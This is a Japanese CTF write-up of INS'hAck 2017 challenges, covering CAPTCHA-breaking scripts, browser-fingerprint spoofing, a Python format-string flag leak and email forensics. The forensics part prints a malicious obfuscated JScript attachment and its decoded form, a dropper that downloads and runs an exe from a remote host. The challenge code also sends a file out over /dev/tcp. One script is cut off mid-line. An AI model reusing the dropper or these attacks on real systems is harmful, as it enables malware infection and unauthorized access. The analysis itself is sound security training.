





チーム Harekaze で [INS'hAck 2017](http://ctf.insecurity-insa.fr/) に参加しました。最終的にチームで 3045 点を獲得し、順位は 6 位 (得点 364 チーム中) でした。うち、私は 23 問を解いて 2869 点を入れました。

以下、解いた問題の write-up です。

## [MISC 20] Feedback

アンケートに答えるとフラグが得られました。

```
INSA{See you next year :D}
```

## [MISC 24] Lets Talk

Telegram のチャットルームに入るとフラグが得られました。

```
INSA{R34L_H4x0r5_u53_t3L3Gr4m}
```

## [MISC 50] Matrix

`nc matrix.insecurity-insa.fr 2052` を実行すると 2178 文字の U+2584 が出力されました。

`2178=66*33` です。幅 66 高さ 33 に整形すると DataMatrix コードが出てきました。

[](../images/2017-04-10_2.png)

```
INSA{Pl4y_w1th_b@rC0d3}
```

## [Programming 175] Captcha Audio

音声の CAPTCHA を破る問題でした。ゴリ押ししましょう。

```python
import hashlib
import re
import requests
import struct

t = '''
03e5d8eff3c5ff76a8a460db29283ecc e
09a72bfd59924971b73c7e4559f41bda u
0e390886800a656cf8293ee589aaa11d a
24c9b1f91c321386e66b0a55c1e0c7cd a
25709f1e506572f612cf3ce25791d3a6 e
2b392cb110a5611e1305520d871e05e2 i
30da50e03aac4fa36e228d552a6d7d64 u
3420923f32d9ff1c0abcccf4f219f33f a
35cbe7fa3037d5b567b7f729278fd9c2 a
4630db6667cd0d242a7cd335e6edcd23 e
4e371c91493ec8858dd6427ce0e62833 a
5335d8619affe022ef898edafe9c8ece e
60af3c421c22a6d51c706d3d5c625ca4 a
612461c6b974c2b5b6297b12948d2cd2 o
625e2782614dbc15db17b8e8e5e922c3 u
68b97f630d93cbcc779321bd691cd073 o
75026e16b0a49fc21b5819f426f039d9 u
8cc7d9c65233609ad8f094a1e1a39dea o
8f7c8d1a36233736dbb4af2942913afb i
9cf78857f5fcd30c54e02997bf695d5e a
9d93528c1c1522205c26c244cce995f3 o
9e591ba9e8d0089ff9fb95c07f8bf037 i
ac7c1d52e787b1fe1204b84a1dd581b8 a
b778cce8f0bc3787a735e50ae889b4e0 o
bc81c7c9f79f5d78a9c46eff77cb401f i
c999654049576ff783e01d315f9b12e6 i
e2c3f6f086477af9e0c1221e81881711 e
ffde8d69320b33973599ca0c87c6648f o
1f3d6167c725c274c68696542319ee8c i
3c95e1fe4b87362e640f23847747dac9 u
6ebd997500054946a4b5681b6201ef2b o
8b46bf9f7f2d9189a425d65b2f7ef065 a
766b0a5178bf67ff35d707ac5e95e603 e
6629f9edfbc39dbcdc7d7fcb8918e3d0 i
ab6f8ea6b9c060056c53cd7e4e670f2b o
86952163bce770d63b5adb1ba1936c2d i
ba4e5381b0e5d1b94595c42efa96c1ad i
f5688c4ed9ac65367bac584379c6677d e
79078c0f118bacc61d6c12d0ad861928 e
32ee638bf79cbfa8fd2cd04617b74bf4 u
29e4e599b048cedeb69c6222a59d8587 i
5e1ee1f90a0be738ac758adceaa266b6 u
01fe71336e9a8231715a17183ea98782 e
1e62de4682c19fa5bcce4ceb78d24b67 o
3a5d40cade32869f671dd55004156aa4 a
6a05d0f0e2da387b100f15393abb4de7 u
acb223ee55e3424b3d741beb6b7f7929 e
feca364bbc6ce0a9bb8f02eef2b6eb18 o
d85c812dd9560b4d51f2e9f738555fb2 u
f6428307ac9da9efddc8e6b8657de053 a
facba08add4e4be2d03af9a507b0c5e1 o
8a6e0f31dece69c26a3b98209456bb91 u
6d3aaf99cb38b55019b6c47c0fbdd0db e
a58d52055c8b3946614b5d176ef62972 u
'''.strip()
table = {line.split(' ')[0]: line.split(' ')[1] for line in t.splitlines()}
header = b'RIFF.$+\x00WAVEfmt \x10\x00\x00\x00\x01\x00\x01\x00"V\x00\x00D\xac\x00\x00\x02\x00\x10\x00data'

r = requests.get('https://captcha-audio.insecurity-insa.fr/')
cookies = r.cookies
wav = requests.get('https://captcha-audio.insecurity-insa.fr/captcha?id=aaaaaaaa', cookies=cookies).content

res = ''
for c in re.split(rb'\0{256,}', wav[0x2c:]):
  if c == b'':
    continue

  hash = hashlib.md5(c).hexdigest()
  if hash not in table:
    print(hash)
    with open('tmp/{}.wav'.format(hash), 'wb') as f:
      f.write(header + struct.pack('<I', len(c)) + c)

  res += table.get(hash, '')

print(res)
print(requests.post('https://captcha-audio.insecurity-insa.fr/submit', cookies=cookies, data={
  'captcha': res
}).content)
```

## [Programming 200] Captcha Image

以下の画像のような、文字の CAPTCHA を破る問題でした。

[](../images/2017-04-10_3.png)

まず r, g, b がそれぞれ異なるピクセルだけを残して、文字だけを抽出しましょう。

[](../images/2017-04-10_4.png)

文字の位置を調整しましょう。

[](../images/2017-04-10_5.png)

あとは pytesseract に投げましょう。

```python
import io
import re
import requests
import pytesseract
from PIL import Image

cookies = {
  'PHPSESSID': 'xxxxxxxxxxxxxxxxxxxxxxxxxx'
}
serial = 'HFEK-RAZAZ-45666-ARZA-RAAA'
url = 'https://captcha-image.insecurity-insa.fr/register.php'

r = requests.get(url, cookies=cookies).content
c = re.findall(r'
```

```
INSA{ThatWasATrainingOneDontWorry}
```

## [Web 50] Xoring

与えられた URL にアクセスしてソースコードを見ると、`/script.js` が読み込まれていました。

`/script.js` は以下のような内容でした。

```javascript
function pasuser(form){if(form.id.value=="admin"){if(x(form.pass.value,"6")=="NeAM+bh_saaES_mFlSYYu}nYw}"){location="success.html"}else{alert("Invalid password/ID")}}else{alert("Invalid UserID")}}
var _0x8d99=["","\x66\x72\x6F\x6D\x43\x68\x61\x72\x43\x6F\x64\x65","\x6C\x65\x6E\x67\x74\x68","\x73\x75\x62\x73\x74\x72"];function x(_0x9aadx2,_0x9aadx3){var _0x9aadx4=[];var _0x9aadx5=_0x8d99[0];for(z=1;z<=255;z++){_0x9aadx4[String[_0x8d99[1]](z)]=z};for(j=z=0;z<_0x9aadx2[_0x8d99[2]];z++){_0x9aadx5+=String[_0x8d99[1]](_0x9aadx4[_0x9aadx2[_0x8d99[3]](z,1)]^_0x9aadx4[_0x9aadx3[_0x8d99[3]](j,1)]);j=(j<_0x9aadx3[_0x8d99[2]])?j+1:0};return _0x9aadx5}
```

難読化されていますが、入力と `6\0` を xor しているだけです。

```python
from pwn import *
encrypted = '7F4E65414D2B62685F73616145535F6D466C535959757D6E59771D7D'.decode('hex')
print xor(encrypted, '6\0')
```

でフラグが表示されました。

```
INSA{+ThisWasSimpleYouKnow+}
```

## [Web 100] Fingerprint

色々とヒントが与えられるので、条件に合致するような環境を作って `evaluate()` を実行しろという問題でした。

とりあえずそのまま `evaluate()` を実行してみると

```
p[]:Widevine Content Decryption Module
p[]:Chrome PDF Viewer
p[]:Native Client
p[]:Chrome PDF Viewer
offset:-540
f[]:Constantia
f[]:Corbel
f[]:Ebrima
...
h:800
w:1423
d[]:
d[]:
d[]:
d[]:
d[]:
d[]:
d[]:
ip:...
str:045645
```

を /php/handle.php に POST していました。では、少しずつ調べていきましょう。

> This is the key link to all my discoveries : https://browserleaks.com/webrtc
> They can know about how many audio or video inputs I use, that may seems harmless but it's really important for me. I am now looking for something that could save me here, something that could hide my inputs.

ソースを読むと `d[]=` は以下のようにして取得していました。消してしまいましょう。

```javascript
    navigator['mediaDevices']['enumerateDevices']()['then'](function(_0xfe3cx6) {
        _0xfe3cx6['forEach'](function(_0xfe3cx1c) {
            _0xfe3cx1a['push'](_0xfe3cx1c['label']);
            _0xfe3cx1b++;
            if (_0xfe3cx1b == _0xfe3cx6['length']) {
              result['d'] = _0xfe3cx1a;
            }
        })
    })['catch'](function(_0xfe3cx6) {
        console['log'](_0xfe3cx6['name'] + ': ' + _0xfe3cx6['message'])
    });
```

> In the adjacent picture you can see that with a simple curl request I could get classified information, the key is the user agent.
> Note : I hid my private IP address, I doubt that it can be usefull but who knows...I also masked the classified informations.
> [](../images/2017-04-10_6.jpg)

User-Agent は `xXxGetSecretInfoxXx` と分かります。

> I can't say where I moved because they would find me, the only thing that I can mention is that I have changed of time zone. AEST ! AEST ! AEST !

AEST は UTC+10 です。ソースを読むとタイムゾーンは以下のようにして取得していました。

```javascript
result['offset'] = (new Date)['getTimezoneOffset']();
```

[Date.prototype.getTimezoneOffset() - JavaScript \| MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Date/getTimezoneOffset) に AEST の例がそのまま載っています。`offset=-600` です。

> You may think I should just change browser but it is too late already. For now I will just block all cookies, local storage and activate the "do not track function".
> I think they can spy me through my google account, I have checked about it so I am totally deconnected from youtube, gmail... For the smooth progress of my project I have to be connected to github, hoping it won't hurt me...

> I have to begin somewhere so I have chosen to install chromium on my computer. Obviously I have installed some add-on. You may think that adBlock was my first choice but I prefered to install Hackbar first.

Cookie と localStorage はブロック、DNT もオンにしているようです。Google アカウントはログアウトしており、GitHub にはログインしているようです。また、HackBar をインストールしているようです。

ソースを読むと以下のようにしてこれらの情報を取得していました。

```javascript
    $['get']('chrome-extension://ejljggkpbkchhfcplgpaegmbfhenekdc/iframe.html')['done'](function() {
        str += '1';
        str += navigator['cookieEnabled'] ? '4' : '7';
        str += navigator['doNotTrack'] ? '5' : '8';
        str += testLocalStorage() ? '6' : '9';
        var img = document['createElement']('img');
        img['src'] = 'https://github.com/login?return_to=https%3A%2F%2Fgithub.com%2Ffavicon.ico%3Fid%3D1';
        img['onload'] = function() {
            str += '4';
            var img = document['createElement']('img');
            img['src'] = 'https://accounts.google.com/ServiceLogin?passive=true&continue=https%3A%2F%2Fwww.youtube.com%2Ffavicon.ico&uilel=3&hl=en&service=youtube';
            img['onload'] = function() {
                str += '5', result['str'] = str
            };
            img['onerror'] = function() {
                str += '9', result['str'] = str
            }
        };
        img['onerror'] = function() {
            str += '7';
            var img = document['createElement']('img');
            img['src'] = 'https://accounts.google.com/ServiceLogin?passive=true&continue=https%3A%2F%2Fwww.youtube.com%2Ffavicon.ico&uilel=3&hl=en&service=youtube';
            img['onload'] = function() {
                str += '5', result['str'] = str
            };
            img['onerror'] = function() {
                str += '9', result['str'] = str
            }
        }
    })['fail'](function() {
        str += '0';
        str += navigator['cookieEnabled'] ? '4' : '7';
        str += navigator['doNotTrack'] ? '5' : '8';
        str += testLocalStorage() === !0 ? '6' : '9';
        var img = document['createElement']('img');
        img['src'] = 'https://github.com/login?return_to=https%3A%2F%2Fgithub.com%2Ffavicon.ico%3Fid%3D1';
        img['onload'] = function() {
            str += '4';
            var img = document['createElement']('img');
            img['src'] = 'https://accounts.google.com/ServiceLogin?passive=true&continue=https%3A%2F%2Fwww.youtube.com%2Ffavicon.ico&uilel=3&hl=en&service=youtube';
            img['onload'] = function() {
                str += '5', result['str'] = str
            };
            img['onerror'] = function() {
                str += '9', result['str'] = str
            }
        };
        img['onerror'] = function() {
            str += '7';
            var img = document['createElement']('img');
            img['src'] = 'https://accounts.google.com/ServiceLogin?passive=true&continue=https%3A%2F%2Fwww.youtube.com%2Ffavicon.ico&uilel=3&hl=en&service=youtube';
            img['onload'] = function() {
                str += '5', result['str'] = str
            };
            img['onerror'] = function() {
                str += '9', result['str'] = str
            }
        }
    });
```

先ほどの条件では `str=175949` になります。

> If you have followed me for more than a year, you know that I have built the first screen with a 8000\*4578 resolution. I might put a link for the new followers when I will have finish my project...
> Well, today I wanted to see what my [last favorite font](http://www.dafont.com/original.font) would looked like on number 58. Obviously it didn't work, there is still some work to accomplish here.

`h=4578&w=8000` です。

ソースを読むと以下のようにしてフォントを取得していました。

```javascript
    var _0xfe3cx1d = ['monospace', 'sans-serif', 'serif'],
        _0xfe3cx1e = ['Abadi MT Condensed Light', 'Bangla Sangam MN', 'Bank Gothic', ..., 'Zurich BlkEx BT', 'Zurich Ex BT', 'ZWAdobeF'],
        _0xfe3cx1f = 'mmmmmmmmmmlli',
        _0xfe3cx20 = '72px',
        body = document['getElementsByTagName']('body')[0],
        _0xfe3cx22 = document['createElement']('div'),
        _0xfe3cx23 = document['createElement']('div'),
        _0xfe3cx24 = {},
        _0xfe3cx25 = {},
        _0xfe3cx26 = function() {
            var _0xfe3cx6 = document['createElement']('span');
            _0xfe3cx6['style']['position'] = 'absolute';
            _0xfe3cx6['style']['left'] = '-9999px';
            _0xfe3cx6['style']['fontSize'] = _0xfe3cx20;
            _0xfe3cx6['style']['lineHeight'] = 'normal';
            _0xfe3cx6['innerHTML'] = _0xfe3cx1f;
            return _0xfe3cx6;
        };
        _0xfe3cx27 = function(_0xfe3cx6, _0xfe3cx1c) {
            var _0xfe3cx2c = _0xfe3cx26();
            _0xfe3cx2c['style']['fontFamily'] = '\'' + _0xfe3cx6 + '\',' + _0xfe3cx1c;
            return _0xfe3cx2c
        };
        _0xfe3cx28 = function() {
            for (var _0xfe3cx6 = [], _0xfe3cx1c = 0, _0xfe3cx2c = _0xfe3cx1d['length']; _0xfe3cx1c < _0xfe3cx2c; _0xfe3cx1c++) {
                var _0xfe3cx2d = _0xfe3cx26();
                _0xfe3cx2d['style']['fontFamily'] = _0xfe3cx1d[_0xfe3cx1c];
                _0xfe3cx22['appendChild'](_0xfe3cx2d);
                _0xfe3cx6['push'](_0xfe3cx2d)
            };
            return _0xfe3cx6
        };
        _0xfe3cx29 = function() {
            for (var _0xfe3cx6 = {}, _0xfe3cx1c = 0, _0xfe3cx2c = _0xfe3cx1e['length']; _0xfe3cx1c < _0xfe3cx2c; _0xfe3cx1c++) {
                for (var _0xfe3cx2d = [], _0xfe3cx2e = 0, _0xfe3cx2f = _0xfe3cx1d['length']; _0xfe3cx2e < _0xfe3cx2f; _0xfe3cx2e++) {
                    var _0xfe3cx30 = _0xfe3cx27(_0xfe3cx1e[_0xfe3cx1c], _0xfe3cx1d[_0xfe3cx2e]);
                    _0xfe3cx23['appendChild'](_0xfe3cx30);
                    _0xfe3cx2d['push'](_0xfe3cx30)
                };
                _0xfe3cx6[_0xfe3cx1e[_0xfe3cx1c]] = _0xfe3cx2d
            };
            return _0xfe3cx6
        };
        _0xfe3cx2a = function(_0xfe3cx6) {
            for (var _0xfe3cx1c = !1, _0xfe3cx2c = 0; _0xfe3cx2c < _0xfe3cx1d['length']; _0xfe3cx2c++) {
                if (_0xfe3cx1c = _0xfe3cx6[_0xfe3cx2c]['offsetWidth'] !== _0xfe3cx24[_0xfe3cx1d[_0xfe3cx2c]] || _0xfe3cx6[_0xfe3cx2c]['offsetHeight'] !== _0xfe3cx25[_0xfe3cx1d[_0xfe3cx2c]]) {
                    return _0xfe3cx1c
                }
            };
            return _0xfe3cx1c
        };
        _0xfe3cx2b = _0xfe3cx28();
    body['appendChild'](_0xfe3cx22);
    for (var _0xfe3cx31 = 0, _0xfe3cx32 = _0xfe3cx1d['length']; _0xfe3cx31 < _0xfe3cx32; _0xfe3cx31++) {
        _0xfe3cx24[_0xfe3cx1d[_0xfe3cx31]] = _0xfe3cx2b[_0xfe3cx31]['offsetWidth'], _0xfe3cx25[_0xfe3cx1d[_0xfe3cx31]] = _0xfe3cx2b[_0xfe3cx31]['offsetHeight']
    };
    var _0xfe3cx33 = _0xfe3cx29();
    body['appendChild'](_0xfe3cx23);
    for (var result = [], i = 0, len = _0xfe3cx1e['length']; i < len; i++) {
        if (_0xfe3cx2a(_0xfe3cx33[_0xfe3cx1e[i]])) {
          result['push'](_0xfe3cx1e[i]);
        }
    };
    body['removeChild'](_0xfe3cx23);
    body['removeChild'](_0xfe3cx22);
    result['f'] = result;
```

`_0xfe3cx1e` の中に `'Original by fnkfrsh'` がありました。これで `f[]=Original by fnkfrsh` になると分かります。

あとは `curl 'https://fingerprint.insecurity-insa.fr/php/handle.php' -H 'user-agent: xXxGetSecretInfoxXx' --data 'offset=-600&f[]=Original by fnkfrsh&h=4578&w=8000&str=175949'` でフラグが表示されました。

```
INSA{Tr4ck1ng_1s_E4sY}
```

## [Web 125] DNSSEC

解法をメモしていなかったので最後に使ったスクリプトのみ。

```python
import base64
import socket
import dns.resolver

resolver = dns.resolver.Resolver()
resolver.nameservers = [socket.gethostbyname('dnssec.challenge-by.ovh')]

n = '00NCOV5KYHGNE27FW9PYKM2B.datastore.challenge-by.ovh'

with open('result.txt', 'w') as f:
  while True:
    s = str(resolver.query(n, 'TXT')[0])
    print(s[1:-1])
    f.write(s[1:-1])
    n = str(resolver.query(n, 'NSEC')[0]).split(' ')[0]
```

```
INSA-3c6e652a93e69f0aad2a329b67b7a034
```

## [Web 125] Python

```python
from flask import Flask, request, render_template
import subprocess

app = Flask(__name__)

@app.route('/')
def index():
  return render_template('index.html')

@app.route('/source')
def sourcecode():
  return render_template('./static/source.py')

@app.route('/flag')
def get():
  if request.method == 'GET':
    ip = request.args.get('ip')
    port = request.args.get('port')
    flag = open('flag.txt').readline()
    allowed = {
      "allowed_ip": "8.8.8.8",
      "allowed_port": port,
      "allowed_flag": flag
    }
    if ip and ip != '' and port and port != '':
      if port.isdigit():
        if ip == allowed.get("allowed_ip"):
          subprocess.Popen("cat flag.txt > /dev/tcp/" + str(ip) + "/" + str(port), shell = True, executable = "bash")
          return ("SUCCESS: The flag have been sent to DST IP %s and DST PORT %s\n") % (ip, port)
        else :
          return ("You have choose IP " + ip + ", but only %(allowed_ip)s will receive the key\n") % allowed
      else :
        return ("Port invalid\n")
    else :
      return ("Please choose an IP and a PORT\n")
  else :
    return ("FAIL: Method HTTP not allowed (%s)\n") % (request.method)

if __name__ == '__main__':
  app.run(host = '0.0.0.0', port = 80)
```

というソースが与えられます。

よく見ると怪しい箇所があります。

```python
return ("You have choose IP "+ ip +", but only %(allowed_ip)s will receive the key\n") % allowed
```

ip に `%(allowed_ip)s` を与えると `"You have choose IP %(allowed_ip)s, but only %(allowed_ip)s will receive the key\n" % allowed` のようになります。

https://python.insecurity-insa.fr/flag?ip=%25(allowed_flag)s&port=1 にアクセスするとフラグが表示されました。

```
INSA{Y0u_C@n_H@v3_fUN_W1Th_pYth0n}
```

## [Forensics 75] Remote Multimedia Controller

pcap ファイルが与えられます。strings すると以下のような文字列がありました。

```
Vmxkd1NrNVhVbk5qUlZKU1ltdGFjRlJYZEhOaWJFNVhWR3RPV0dKVmJEWldiR1JyV1ZkS1ZXRXphRnBpVkVaVFYycEtVMU5IUmtobFJYQlRUVmhDTmxZeFdtdGhhelZ5WWtWYWFWSlViRmRVVlZaYVRURmFjbFpyT1ZaV2JXUTJWa1pvYTFkck1YVlVhbHBoVWxack1GUlZaRXRqVmxaMVZHMTRXRkpVUlRCWFdIQkdUbGRHY2s1VmFFOVdNWEJoV1Zkek1XSldaSFJPVm1SclZsZDRXbFJWVm5wUVVUMDk=
```

5 回 base64 デコードするとフラグが得られました。

```
INSA{TCP_s0ck3t_4n4lys1s_c4n_b3_fun!}
```

## [Forensics 150] Crypt0r Part1

70 通のメールが tar.gz 形式で与えられます。どのような添付ファイルがあるか探していると、以下のようなファイルを見つけました。

```
145A4TZODF48DHOGRGVQ9L9DS8ZFGCBD.eml:Content-Type: application/octet-stream; name="sandoche.briman.pdf.js"
145A4TZODF48DHOGRGVQ9L9DS8ZFGCBD.eml:Content-Description: sandoche.briman.pdf.js
145A4TZODF48DHOGRGVQ9L9DS8ZFGCBD.eml:Content-Disposition: attachment; filename="sandoche.briman.pdf.js"; size=4082;
```

```javascript
try{
var b = String.fromCharCode(118, 97, 114, 32, 106, 32, 61, 32, 91, 34, 87, 83, 99, 114, 105, 112, 116, 46, 83, 104, 101, 108, 108, 34, 44, 34, 83, 99, 114, 105, 112, 116, 105, 110, 103, 46, 70, 105, 108, 101, 83, 121, 115, 116, 101, 109, 79, 98, 106, 101, 99, 116, 34, 44, 34, 83, 104, 101, 108, 108, 46, 65, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 34, 44, 34, 77, 105, 99, 114, 111, 115, 111, 102, 116, 46, 88, 77, 76, 72, 84, 84, 80, 34, 93, 59, 10, 118, 97, 114, 32, 117, 32, 61, 32, 91, 34, 97, 97, 97, 99, 99, 46, 34, 44, 32, 34, 58, 47, 34, 44, 32, 34, 103, 112, 111, 122, 103, 122, 101, 106, 103, 111, 122, 106, 34, 44, 32, 34, 103, 108, 107, 114, 103, 106, 111, 101, 103, 106, 110, 102, 111, 122, 112, 107, 102, 112, 122, 101, 34, 44, 32, 34, 116, 111, 112, 34, 44, 32, 34, 119, 105, 110, 51, 50, 34, 44, 32, 34, 99, 114, 121, 112, 116, 48, 114, 34, 44, 32, 34, 98, 105, 110, 97, 114, 105, 101, 115, 34, 44, 32, 34, 115, 119, 101, 101, 116, 118, 112, 110, 34, 44, 32, 34, 46, 34, 44, 32, 34, 97, 114, 99, 104, 34, 44, 32, 34, 101, 120, 101, 34, 44, 32, 34, 104, 116, 116, 112, 34, 44, 32, 34, 47, 34, 93, 59, 10, 10, 116, 114, 121, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 115, 104, 32, 61, 32, 67, 114, 40, 48, 41, 59, 10, 32, 32, 32, 32, 118, 97, 114, 32, 102, 115, 32, 61, 32, 67, 114, 40, 49, 41, 59, 10, 10, 32, 32, 32, 32, 118, 97, 114, 32, 115, 50, 32, 61, 32, 69, 120, 40, 34, 116, 101, 109, 112, 34, 41, 32, 43, 32, 34, 92, 92, 34, 32, 43, 32, 117, 91, 50, 42, 50, 43, 49, 93, 32, 43, 32, 32, 117, 91, 55, 43, 51, 45, 49, 93, 43, 32, 117, 91, 53, 42, 50, 43, 49, 93, 59, 10, 32, 32, 32, 32, 118, 97, 114, 32, 102, 105, 32, 61, 32, 102, 115, 46, 67, 114, 101, 97, 116, 101, 84, 101, 120, 116, 70, 105, 108, 101, 40, 115, 50, 44, 116, 114, 117, 101, 41, 59, 10, 32, 32, 32, 32, 102, 105, 46, 87, 114, 105, 116, 101, 40, 80, 116, 40, 50, 53, 54, 53, 52, 53, 52, 52, 56, 52, 53, 49, 52, 56, 53, 52, 56, 52, 53, 52, 56, 55, 56, 52, 56, 44, 32, 34, 107, 103, 106, 103, 101, 112, 111, 103, 61, 107, 102, 79, 73, 73, 73, 101, 101, 111, 101, 122, 106, 61, 61, 34, 41, 41, 59, 10, 32, 32, 32, 32, 102, 105, 46, 67, 108, 111, 115, 101, 40, 41, 59, 10, 32, 32, 32, 32, 115, 104, 46, 114, 117, 110, 40, 115, 50, 41, 59, 10, 125, 10, 99, 97, 116, 99, 104, 32, 40, 101, 114, 114, 41, 10, 123, 10, 125, 10, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 69, 120, 40, 83, 41, 32, 123, 10, 32, 32, 32, 32, 114, 101, 116, 117, 114, 110, 32, 115, 104, 46, 69, 120, 112, 97, 110, 100, 69, 110, 118, 105, 114, 111, 110, 109, 101, 110, 116, 83, 116, 114, 105, 110, 103, 115, 40, 34, 37, 34, 32, 43, 32, 83, 32, 43, 32, 34, 37, 34, 41, 59, 10, 125, 10, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 80, 116, 40, 67, 44, 65, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 88, 32, 61, 32, 67, 114, 40, 51, 41, 59, 10, 32, 32, 32, 32, 118, 97, 114, 32, 84, 32, 61, 32, 117, 91, 49, 50, 93, 32, 43, 32, 117, 91, 55, 37, 54, 93, 32, 43, 32, 117, 91, 49, 51, 93, 32, 43, 32, 117, 91, 51, 93, 32, 43, 32, 117, 91, 57, 93, 32, 43, 32, 117, 91, 50, 43, 50, 42, 48, 93, 32, 43, 32, 117, 91, 49, 48, 50, 57, 42, 48, 93, 32, 43, 32, 117, 91, 56, 42, 49, 48, 47, 50, 48, 42, 50, 93, 32, 43, 32, 117, 91, 57, 93, 32, 43, 32, 117, 91, 52, 93, 32, 43, 32, 117, 91, 49, 51, 93, 32, 43, 32, 117, 91, 55, 93, 32, 43, 32, 117, 91, 49, 51, 93, 32, 43, 32, 117, 91, 49, 48, 93, 32, 43, 32, 32, 117, 91, 49, 48, 43, 54, 47, 50, 93, 32, 43, 32, 117, 91, 55, 45, 50, 93, 32, 43, 32, 117, 91, 49, 52, 43, 53, 45, 54, 93, 32, 43, 32, 117, 91, 54, 93, 32, 43, 32, 117, 91, 57, 93, 32, 43, 32, 117, 91, 49, 49, 93, 59, 10, 10, 32, 32, 32, 32, 88, 46, 111, 112, 101, 110, 40, 39, 71, 69, 84, 39, 44, 32, 84, 32, 43, 32, 34, 63, 112, 61, 114, 38, 108, 61, 34, 32, 43, 32, 67, 44, 32, 102, 97, 108, 115, 101, 41, 59, 10, 32, 32, 32, 32, 88, 46, 83, 101, 116, 82, 101, 113, 117, 101, 115, 116, 72, 101, 97, 100, 101, 114, 40, 34, 85, 115, 101, 114, 45, 65, 103, 101, 110, 116, 58, 34, 44, 32, 34, 77, 97, 100, 101, 32, 98, 121, 32, 98, 52, 99, 99, 52, 114, 100, 49, 34, 41, 59, 10, 32, 32, 32, 32, 88, 46, 115, 101, 110, 100, 40, 65, 41, 59, 10, 32, 32, 32, 32, 114, 101, 116, 117, 114, 110, 32, 88, 46, 114, 101, 115, 112, 111, 110, 115, 101, 116, 101, 120, 116, 59, 10, 125, 10, 10, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 67, 114, 40, 78, 41, 32, 123, 10, 32, 32, 32, 32, 114, 101, 116, 117, 114, 110, 32, 110, 101, 119, 32, 65, 99, 116, 105, 118, 101, 88, 79, 98, 106, 101, 99, 116, 40, 106, 91, 78, 93, 41, 59, 10, 125, 10, 10);
eval(b);
} catch (err) {}
```

`eval` を `console.log` に書き換えて実行し、整形すると以下のようなコードが得られました。

```javascript
var j = ["WScript.Shell","Scripting.FileSystemObject","Shell.Application","Microsoft.XMLHTTP"];
var u = ["aaacc.", ":/", "gpozgzejgozj", "glkrgjoegjnfozpkfpze", "top", "win32", "crypt0r", "binaries", "sweetvpn", ".", "arch", "exe", "http", "/"];

try {
    var sh = Cr(0);
    var fs = Cr(1);

    var s2 = Ex("temp") + "\\" + u[2*2+1] +  u[7+3-1]+ u[5*2+1];
    var fi = fs.CreateTextFile(s2,true);
    fi.Write(Pt(2565454484514854845487848, "kgjgepog=kfOIIIeeoezj=="));
    fi.Close();
    sh.run(s2);
}
catch (err)
{
}

function Ex(S) {
    return sh.ExpandEnvironmentStrings("%" + S + "%");
}

function Pt(C,A) {
    var X = Cr(3);
    var T = u[12] + u[7%6] + u[13] + u[3] + u[9] + u[2+2*0] + u[1029*0] + u[8*10/20*2] + u[9] + u[4] + u[13] + u[7] + u[13] + u[10] +  u[10+6/2] + u[7-2] + u[14+5-6] + u[6] + u[9] + u[11];

    X.open('GET', T + "?p=r&l=" + C, false);
    X.SetRequestHeader("User-Agent:", "Made by b4cc4rd1");
    X.send(A);
    return X.responsetext;
}


function Cr(N) {
    return new ActiveXObject(j[N]);
}
